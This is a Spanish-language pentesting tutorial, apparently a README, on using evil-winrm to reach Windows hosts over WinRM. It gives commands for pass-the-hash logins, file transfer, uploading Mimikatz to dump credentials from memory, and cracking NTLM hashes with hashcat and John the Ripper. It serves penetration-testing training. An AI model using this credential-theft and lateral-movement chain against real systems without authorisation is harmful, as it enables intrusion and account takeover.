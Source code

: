 # 🛡️ ¿Qué es `evil-winrm` y cómo usarlo para pruebas de penetración?  

`evil-winrm` es una herramienta poderosa, escrita en Ruby, que permite acceder a máquinas Windows remotas mediante **WinRM (Web Remote Management)**. Es una herramienta clave en la caja de herramientas de cualquier profesional de ciberseguridad o auditor de sistemas.

---

## 🔧 ¿Para qué sirve?

- **Acceso remoto seguro** a servidores Windows habilitados para WinRM.

- **Autenticación flexible**: soporta credenciales en texto plano o hashes NTLM.

- Permite:
  - Ejecutar comandos como si estuvieras en PowerShell.
  - Navegar por el sistema de archivos del objetivo.
  - Subir y bajar archivos.
  - Explorar vulnerabilidades y explotar scripts o aplicaciones web mal configuradas.

---

## 💻 Cómo usar `evil-winrm`

### ✅ Con credenciales

```bash
evil-winrm -i 192.168.1.10 -u Administrator -p password123
```

- `-i`: IP del servidor objetivo.
- `-u`: Nombre de usuario.
- `-p`: Contraseña.


### 🔐 Con hash NTLM

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

- `-H`: Hash NTLM del usuario (`<LM_HASH>:<NTLM_HASH>`).

---

### 🛠️ Opciones adicionales útiles

| Opción | Descripción |
|--------|-------------|
| `-s`   | Carpeta con scripts Ruby para ejecutar. |
| `-l`   | Carpeta local para guardar archivos descargados. |
| `-P`   | Puerto personalizado (por defecto 5985 para HTTP). |

---


## 🧪 Ejemplo práctico

```bash
evil-winrm -i 192.168.1.10 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

Una vez conectado:

```powershell
PS C:\Users\Administrator\Desktop> dir
PS C:\Users\Administrator\Desktop> whoami
PS C:\Users\Administrator\Desktop> Get-ChildItem
```

---

## 📥 Transferencia de archivos

### Descargar un archivo del servidor:

```powershell
download C:\Users\Administrator\Desktop\secreto.txt
```

### Subir un archivo desde tu máquina:

```powershell
upload /home/kali/archivo.exe C:\Users\Administrator\Desktop\
```

---

## 🕵️‍♂️ Captura de hashes con `evil-winrm`

Si tienes acceso al sistema, puedes usar **Mimikatz** para extraer hashes de memoria.

### Pasos básicos:

1. Subir Mimikatz:

```bash
upload mimikatz_trunk/mimikatz.exe C:\Users\Administrator\Desktop
```

2. Ejecutar Mimikatz:

```powershell
cd C:\Users\Administrator\Desktop
.\mimikatz.exe
```

3. Comandos dentro de Mimikatz:

```powershell
privilege::debug
sekurlsa::logonpasswords
```

Esto te mostrará contraseñas en claro, hashes NTLM y más.

---

## 🔁 Reutilizar hashes obtenidos

Los hashes capturados pueden ser usados con otras herramientas como:

- `evil-winrm` (como ya vimos).
- Herramientas de `Impacket` (`ntlmrelayx.py`, `wmiexec.py`, etc.).

---

## 🔐 ¿Cómo descifrar hashes NTLM?

### Tipos de hashes

| Tipo        | Descripción |
|-------------|-------------|
| **LM Hash** | Obsoleto, fácil de crackear. |
| **NTLM Hash** | Más fuerte, pero también crackeable. |

---

### Herramientas recomendadas

#### 1. `hashcat`

```bash
hashcat -m 1000 hash.txt /ruta/a/diccionario.txt
```

- `-m 1000`: Modo NTLM.
- `hash.txt`: Archivo con los hashes.
- `/ruta/a/diccionario.txt`: Diccionario de contraseñas.

#### 2. `john the ripper`

```bash
john --wordlist=/ruta/a/diccionario.txt hash.txt
```

---

## 📌 Conclusión

`evil-winrm` es una herramienta esencial para profesionales de ciberseguridad, especialmente en entornos Windows. Combina facilidad de uso con potencia, permitiendo tanto acceso remoto como análisis forense y extracción de credenciales.

¡Comparte este contenido y aprendamos juntos! 👨‍💻👩‍💻 #Ciberseguridad #PenTest #EvilWinRM #HashesNTLM #Redes #Cybersecurity #Windows #EthicalHacking

![Evil-WinRM](https://www.kali.org/tools/evil-winrm/images/evil-winrm-logo.svg)

